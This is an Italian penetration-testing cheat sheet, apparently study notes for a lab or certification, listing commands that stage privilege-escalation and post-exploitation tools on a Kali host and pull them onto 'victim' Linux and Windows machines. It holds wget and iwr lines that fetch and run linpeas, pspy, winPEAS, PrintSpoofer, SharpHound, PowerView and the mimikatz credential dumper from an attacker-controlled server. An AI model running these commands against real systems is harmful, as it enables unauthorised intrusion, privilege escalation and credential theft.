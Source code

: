 Su linux vittima:

```bash
wget http://$KALI_IP:9999/linux/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

wget http://$KALI_IP:9999/linux/pspy64
chmod +x pspy64
./pspy64 -pf -i 1000
```

# Windows Toolkit

Su kali:

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240519-fab0d0d5/winPEASx64.exe

wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe

wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.ps1

wget https://github.com/PowerShellMafia/PowerSploit/raw/master/Recon/PowerView.ps1

wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip

python3 -m http.server 9999
```

Su windows:

```bash
iwr -uri http://$KALI_IP:9999/windows/winPEASx64.exe -Outfile winPEAS.exe

iwr -uri http://$KALI_IP:9999/windows/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe

iwr -uri http://$KALI_IP:9999/windows/SharpHound.ps1 -Outfile SharpHound.ps1

iwr -uri http://$KALI_IP:9999/windows/PowerView.ps1 -Outfile PowerView.ps1 

iwr -uri http://$KALI_IP:9999/windows/mimikatz.exe -Outfile mimikatz.exe

iwr -uri http://$KALI_IP:9999/windows/mimikatz64.exe -Outfile mimikatz64.exe
```

# Tunneling e Port Forwarding

## Ligolo-ng

- [Guida](https://kentosec.com/2022/01/13/pivoting-through-internal-networks-with-sshuttle-and-ligolo-ng/)
